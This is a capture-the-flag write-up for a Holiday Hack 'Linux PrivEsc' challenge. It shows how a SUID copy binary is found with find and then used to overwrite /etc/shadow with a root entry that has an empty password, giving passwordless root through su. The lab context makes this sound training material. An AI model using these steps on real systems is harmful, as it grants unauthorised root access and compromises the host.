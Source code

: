 ```yaml
---
icon: material/text-box-outline
---
```


# Linux PrivEsc

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star:<br/>
**Direct link**: [Objective 6 URL](https://.../)

## Objective

!!! question "Request"
    Rosemold is in Ostrich Saloon on the Island of Misfit Toys. Give her a hand with escalation for a tip about hidden islands.

??? quote "Rose Mold"
    What am I doing in this saloon? The better question is: what planet are you from?<br/>
    Yes, I’m a troll from the Planet Frost. I decided to stay on Earth after Holiday Hack 2021 and live among the elves because I made such dear friends here.

## Hints

??? tip "Linux Privilege Escalation Techniques"
    There's various ways to escalate privileges on a Linux system.https://payatu.com/blog/a-guide-to-linux-privilege-escalation/

??? tip "Linux Command Injection"
    Use the privileged binary to overwriting a file to escalate privileges could be a solution, but there's an easier method if you pass it a crafty argument..



## Solution

After grabbing console access to terminal we started exploring interesting files on filesystem

```
find / -perm -u+s 2>/dev/null
```

And we found interesting binary **/usr/bin/simplecopy**

Next we checked directory /etc/shadow for its structure. Create simple sh2 file with root without password.

```
echo -e "root::19634:0:99999:7:::" > sh2
```

Next using simplecopy binary we modified /etc/shadow file and su didnt' require any password so we could freely use root account

```
 simplecopy sh2 /etc/shadow
 su

```

### Images

![Terminal output](../img/objectives/o7/terminal-privesc.png)



!!! success "Answer"
    "santa"

## Response

!!! quote "Rose Mold"
    Yup, I knew you knew. You just have that vibe.
